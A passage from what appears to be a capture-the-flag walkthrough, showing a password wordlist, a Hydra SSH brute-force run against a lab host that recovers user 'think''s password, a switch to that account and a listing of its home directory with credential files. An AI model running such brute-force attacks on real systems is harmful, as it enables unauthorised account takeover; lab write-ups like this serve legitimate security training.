 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`vim ./think_passwords.list`:
```
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd

[...]
```

`hydra -l 'think' -P ./think_passwords.list 192.168.56.134 ssh`:
```                                                                 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 13:11:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 50 login tries (l:1/p:50), ~4 tries per task
[DATA] attacking ssh://192.168.56.134:22/
[22][ssh] host: 192.168.56.134   login: think   password: josemario.AKA(think) ←
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 13:11:45
```

`su think`:
```
Password: ←
```

![Victim: think](https://img.shields.io/badge/Victim-think-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
think ←
```

`id`:
```
uid=1000(think) gid=1000(think) groups=1000(think)
```

`cd /home/think`

`ls -alps ./`:
```
total 40
4 drwxr-xr-x 5 think think 4096 Jan 11  2024 ./
4 drwxr-xr-x 3 root  root  4096 Jun  2  2023 ../
0 lrwxrwxrwx 1 root  root     9 Jun 21  2023 .bash_history -> /dev/null
4 -rwxr-xr-x 1 think think  220 Jun  2  2023 .bash_logout
4 -rwxr-xr-x 1 think think 3771 Jun  2  2023 .bashrc
4 drwxr-xr-x 2 think think 4096 Jun 21  2023 .cache/
4 drwx------ 3 think think 4096 Aug  9  2023 .gnupg/
4 -rw-r----- 1 root  think  525 Jul 30  2023 .passwords
4 -rwxr-xr-x 1 think think  807 Jun  2  2023 .profile
4 drw-r----- 2 think think 4096 Jun 21  2023 .ssh/
4 -rw-r----- 1 root  think   33 Jul 30  2023 user.txt ←
0 lrwxrwxrwx 1 root  root     9 Jun 21  2023 .viminfo -> /dev/null 
```